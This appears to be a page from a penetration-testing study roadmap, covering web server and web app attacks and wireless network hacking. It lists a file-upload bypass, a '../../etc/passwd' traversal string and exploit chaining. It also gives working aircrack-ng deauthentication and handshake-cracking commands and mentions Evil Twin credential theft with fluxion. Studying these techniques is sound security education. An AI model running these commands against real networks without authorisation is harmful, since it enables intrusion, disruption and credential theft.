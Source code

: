 
## 🔥 PHASE 10: Web Server & Web App Hacking (Advanced)

### Web Server Attacks
- `TRACE`/`PUT` methods
- Misconfigured file uploads:
  - Upload `.php` file with image extension
- Directory traversal: `../../etc/passwd`

### Web App Attacks
- **SQLi**, **XSS**, **CSRF**, **SSRF**, **IDOR**, **Open Redirect**
- Test each input manually and with tools
- Exploit chaining is key:
  - SSRF → internal service → RCE
  - IDOR → account takeover

---

## 📶 PHASE 11: Wireless Network Hacking

### 🧰 Tools
```bash
airmon-ng start wlan0
airodump-ng wlan0mon
aireplay-ng --deauth 10 -a BSSID wlan0mon
```
- Capture handshake
- Crack with `aircrack-ng` or `hashcat`

### 🤖 Automated WiFi Hacking
- Use `wifite` (automates capture, cracking, and targeting)
```bash
wifite
```
- Use `fluxion` for Evil Twin attacks (host fake access point, steal creds)

### 🔧 Manual Steps Summary
1. **Monitor Mode**:
   ```bash
   airmon-ng start wlan0
   ```
2. **Capture Handshake**:
   ```bash
   airodump-ng wlan0mon
   aireplay-ng -0 10 -a <BSSID> wlan0mon
   ```
3. **Crack Handshake**:
   ```bash
   aircrack-ng capture.cap -w rockyou.txt
   ```

---
